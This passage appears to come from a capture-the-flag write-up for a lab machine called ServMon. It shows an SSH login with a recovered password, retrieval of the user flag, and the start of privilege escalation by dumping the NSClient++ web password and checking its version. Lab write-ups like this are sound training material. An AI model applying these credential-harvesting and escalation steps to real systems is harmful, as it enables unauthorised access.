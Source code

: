 <br />

We have a valid match -> Nadine:L1k3B1gBut7s@W0rk

<br />

## SSH - Nadine:

<br />

Port 22 is open, so we try to connect as `Nadine` with the valid password:

<br />

```bash
❯ ssh Nadine@10.10.10.184
Nadine@10.10.10.184's password:
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine

nadine@SERVMON C:\Users\Nadine>type Desktop\user.txt 
f18f32659ac6e495aa59ee53fexxxxxx
```

<br />

Perfect! We have the user flag!

<br />

# Privilege Escalation: Nadine -> NT AUTHORITY\SYSTEM:

<br />

While enumerating the system we found the `NSClient++` password:

<br />

```bash
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

<br />

We also confirmed installed version of the software: `NSClient++ 0.5.2.35`

<br />

```bash
nadine@SERVMON C:\Program Files\NSClient++>nscp --version
NSClient++, Version: 0.5.2.35 2018-01-28, Platform: x64
```

<br />
